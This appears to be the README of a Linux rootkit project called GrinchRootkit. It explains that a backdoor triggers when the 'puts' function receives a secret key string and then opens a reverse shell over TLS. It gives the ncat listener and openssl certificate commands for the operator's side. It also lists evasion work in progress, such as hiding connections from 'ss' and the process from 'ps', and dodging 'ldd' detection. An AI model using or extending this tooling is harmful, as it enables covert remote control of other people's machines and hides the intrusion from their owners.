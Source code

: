 # GrinchRootkit

Install pre-requisites: 'apt install -y libssl-dev'

The backdoor triggers when 'puts' function receives the KEY_STRING (defined in grinch.h) and the reverse shell connects through a TLS tunnel.
To listen connections with temporary certificates: 'ncat --ssl --listen --verbose --nodns <port>'.

To create permanent certificate: 'openssl req -x509 -nodes -days 365 -newkey rsa:1024 -keyout grinch.key -out grinch.crt'.
To listen connections with permanent certificates: 'ncat --ssl --ssl-cert grinch.crt --ssl-key grinch.key --ssl-verify --listen --verbose --nodns <port>'.

Currently developing:
  Hiding connection from 'ss'.
  IPv6 support.
  Improving backdoor trigger.
  SSL bullet-proof client and server (client certificate, client key, PKI,...).
  Improving authentication (username & password, or 2FA).
  
Currently fixing:
  Handling STDERR when a wrong command is introduced.
  Fails re-implant rootkit, when deleting to avoid 'ldd' binary shared library detection.
  Hiding backdoor process (when non-root user activates) from 'ps' and similar binaries (that use 'lstat', 'fstat', 'stat',... functions).
